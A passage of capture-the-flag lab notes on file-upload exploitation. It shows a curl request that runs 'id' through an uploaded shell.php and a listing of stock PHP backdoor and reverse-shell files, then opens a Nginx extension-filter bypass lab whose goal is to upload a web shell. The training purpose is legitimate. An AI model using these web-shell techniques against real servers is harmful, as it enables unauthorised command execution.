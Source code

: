 ```http
Server: Apache/2.4.7 (Ubuntu)
Vary: Accept-Encoding
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 4062


<!DOCTYPE html>
<html lang="en">

[...]

	<div class="media-body">
	  <a href='uploads/test.php'>File Uploaded Succesfully</a>📌                       </div>

[...]
```

`curl -X GET 'https://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com/uploads/shell.php?cmd=id'`:
```html
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)🚩
</pre>
```

`locate -i 'webshells' | grep -E '\.php$'`:
```
/usr/share/webshells/php/php-backdoor.php
/usr/share/webshells/php/php-reverse-shell.php
/usr/share/webshells/php/qsd-php-backdoor.php
/usr/share/webshells/php/simple-backdoor.php
/usr/share/webshells/php/findsocket/php-findsock-shell.php
```

### Bypassing File Upload Extension Filters

#### Lab Environment

**Vulnerable Nginx II**

Nginx, even though young by World Wide Web years, is as popular as Apache today. In this series of challenges, we hope to explore how attackers can exploit webapps running on Nginx  arising due to server misconfigurations and/or application vulnerabilities. Take a look at the scenario below.

The web portal only <u>allows the user to upload files with restricted extensions (i.e. jpg, png, etc.)</u>. But <u>a misconfiguration in PHP configuration file (`php.ini`) allows PHP code execution for uploaded files</u>.

**Objective:** Your objective is to upload a web shell, execute arbitrary commands on the server and retrieve the flag!

#### Lab Solution

`whatweb https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/`:
```
https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/ [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.4.6], IP[172.104.229.221], JQuery, PHP[5.5.9-1ubuntu4.25],📌 Script, X-Powered-By[PHP/5.5.9-1ubuntu4.25], nginx[1.4.6]
```

